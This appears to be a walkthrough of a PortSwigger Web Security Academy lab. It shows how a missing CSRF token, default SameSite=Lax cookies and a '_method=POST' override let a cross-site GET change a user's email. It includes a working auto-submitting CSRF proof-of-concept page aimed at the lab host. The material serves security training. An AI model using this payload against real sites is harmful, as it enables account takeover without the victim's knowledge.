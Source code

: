 ## Lab Description: SameSite Lax bypass via method override

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2591f2ef-6cec-4684-ba8c-0798eba59637)

## Solution: 

Go to My-Account and Log In to the account with the above credentials and change your email address.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f249ba35-c937-4d19-a959-b8e3ff5903a6)

Send the POST /my-account/change-email request to Burp Repeater.And Study the POST /my-account/change-email request and 
notice that this doesn't contain any unpredictable tokens so may be vulnerable to CSRF if you can bypass the SameSite cookie restrictions.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/3630dd9b-2d9a-44ee-a539-ec0e9d52700b)

Look at the response to your POST /login request. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. 
As a result, the browser will use the default Lax restriction level.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8e31717b-5ad2-4e4a-bf13-af89dfc49f20)

Recognize that this means the session cookie will be sent in cross-site GET requests, as long as they involve top-level navigation.

In Burp Repeater, right-click on the request and select Change request method. Burp automatically generates an equivalent GET request.
And send the request. Observe that the endpoint only allows POST requests.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8ee9a52d-66b3-407d-a8be-2869bcd340f8)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9fb8072a-ab60-463e-b210-b3d0e893700b)

Try overriding the method by adding the _method parameter to the query string:
```
/my-account/change-email?email=foo%40web-security-academy.net&_method=POST
```
Send the request. Observe that this has been accepted by the server.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2c92a17e-f57f-4ef0-ad54-6cad61f088c5)

Now Generate POC for this request to Bypass Samesite Cookie

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b5fd7940-4fa1-4eca-a882-8c1d56188b6f)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3d007b045ae83d80e65da0004500ce.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="cyber123&#64;gmail&#46;com" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/72b389d1-f283-457f-a1ee-f82fbcdb3fa5)

Hence We Solved our Lab

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/fa95736a-228b-4a45-a8ca-aed23da1d053)

